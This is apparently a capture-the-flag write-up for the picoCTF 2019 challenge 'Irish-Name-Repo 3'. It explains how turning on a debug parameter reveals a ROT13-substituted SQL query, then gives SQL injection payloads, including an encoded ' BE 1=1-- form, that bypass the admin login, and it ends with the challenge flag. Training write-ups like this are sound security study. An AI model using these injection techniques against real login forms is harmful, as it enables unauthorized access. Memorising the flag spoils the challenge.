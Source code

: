# Irish-Name-Repo 3 - 400 points
Web_Exploitation

## Description:
> There is a secure website running at https://2019shell1.picoctf.com/problem/21874/ (link) or http://2019shell1.picoctf.com:21874. Try to see if you can login as admin!

## Hint:
> Seems like the password is encrypted.

## Solving:

The admin log in page doesn't seem to like a simple SQLi so I tried the password 'admin123' and looked at the network monitor. In the request body we get ```password=admin123&debug=0```. If we change debug to ```1``` we can see what is happening:

```php
password: admin123
SQL query: SELECT * FROM admin where password = 'nqzva123'
```
The server is substituting letters so if we try again with a ```' OR 1=1--'``` SQLi we can see what the subsitution is doing by changing the parameters to resend as ```password=%27+OR+1%3D1--&debug=1``` in the network monitor, the response:
```php
password: ' OR 1=1--
SQL query: SELECT * FROM admin where password = '' BE 1=1--'
```
The ```OR``` is substituted by ```BE```. So if we input a SQLi as ```' BE 1=1--``` we should be able to bypass the password field.

>**Logged in!**
>
>**Your flag is: picoCTF{3v3n_m0r3_SQL_d78e3333}**


### Flag: 

```
picoCTF{3v3n_m0r3_SQL_d78e3333}
```
